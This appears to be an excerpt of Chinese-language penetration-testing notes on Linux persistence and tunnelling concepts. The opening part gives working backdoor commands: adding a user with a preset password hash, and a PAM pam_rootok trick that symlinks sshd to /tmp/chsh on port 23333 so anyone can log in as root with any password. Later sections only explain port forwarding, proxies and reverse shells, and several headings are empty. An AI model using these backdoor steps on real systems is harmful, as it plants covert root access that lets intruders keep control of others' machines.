    ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```

1. 判断当前计算机 `SSH` 是否开启 `PAM` 认证

   `cat /etc/ssh/sshd_config | grep UsePAM` 或 `ls /etc/pam.d` 中查看

2. 查看 `pmd.d`  文件下哪些文件配置了 `pam_rootok`

   `find /etc/pam.d | xargs grep "pam_rootok"`

3. 以 `root` 权限建立 `sshd` 的软连接（`chsh` 配置了 `rootok` 认证）

   `ln -sf /usr/sbin/sshd /tmp/chsh`

4. 更改 `chsh` 的端口

   `/tmp/chsh -oPort 23333`

5. 登录（输入任意密码，即可登录）

   `ssh root@[IP地址] -p [后门端口]`

#### 公私钥维持



#### 计划任务维持



## 隧道搭建

### 隧道技术基础（相关概念）

#### 端口转发和端口映射

> 端口转发，也称之为做隧道，是安全壳（SSH）为网络安全通信使用的一种方法。
> 简单来说，端口转发就是将一个端口收到的流量转发到另一个端口

> 端口映射，是 `NAT` 的一种，功能是把在公网的地址转换成私有地址。
> 简单来说，端口映射就是将一个端口映射到另一个端口供其他人使用

#### HTTP 代理和 Socks 代理

> HTTP 代理使用的是 HTTP 协议，工作在应用层，主要是用来代理浏览器访问网页

> `Socks` 代理使用的是 `Socks` 协议，工作在会话层，主要用来传递数据包。
> `Socks` 代理又分为 `Socks4` 和 `Socks5`，`Socks4` 只支持 `TCP`，而 `Socks5` 支持 `TCP` 和 `UDP`

#### 反弹 Shell

> 反弹 `Shell`（`Reverse Shell`），就是控制端监听某 `TCP/UDP` 端口，被控端发送请求到该端口，并将其命令行的输入输出转到控制端，`Reverse Shell` 与 `telnet、` `ssh` 等标准 `Shell` 对应，本质上是网络概念的用户端和服务端的角色反转。

#### 正向代理和反向代理

> 正向代理是从攻击者电脑主动访问目标机器。 例如通过主动访问目标建立 `Shell` 就是正向 `Shell`

> 反向代理是从目标机器主动连接攻击者电脑。 例如通过在目标机器执行命令访问攻击者电脑建立的 `Shell` 就是反向 `Shell`

#### ICPM 隧道和 DNS 隧道



   ```